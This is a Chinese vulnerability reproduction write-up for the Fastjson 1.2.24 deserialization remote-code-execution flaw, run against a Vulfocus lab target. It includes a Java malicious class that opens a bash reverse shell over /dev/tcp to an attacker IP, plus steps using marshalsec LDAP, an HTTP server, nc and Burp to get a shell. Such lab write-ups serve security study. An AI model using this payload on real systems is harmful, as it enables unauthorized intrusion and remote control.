 # Fastjson_1.2.24反序列化导致任意命令执行漏洞 by [fengyehack](https://github.com/fengyehack) 

## 漏洞描述

FastJson 库是 Java 的一个 Json 库，其作用是将 Java 对象转换成 json 数据来表示，也可以将 json 数据转换成 Java 对象，使用非常方便，号称是执行速度最快的库。

在 1.2.24 版本的 Fastjson 出现了一个反序列化的漏洞，fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

## 漏洞影响版本

fastjson <= 1.2.24

## 漏洞复现

启动 Vulfocus 靶场的 fastjson1.2.24-rce

![](./1.png)



修改 java 恶意类代码保存为 TouchFile.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
          Runtime r = Runtime.getRuntime();
          Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/IP/1888 0>&1"});
          p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```



![](./2.png)



编译恶意类代码 javac TouchFile.java 生成 TouchFile.class

![](./3.png)

上传编译好的恶意类到服务器

![](./4.png)

然后使用 python -m SimpleHTTPServer 快速搭建http服务

![](./5.png)

使用 marshalsec 开启 ldap 服务

![](./6.png)

nc 监听

![](./7.png)

访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell

![](./8.png)

可以看到请求成功，加载了恶意类

![](./9.png)

![](./10.png)

成功拿到 shell

![](./11.png)

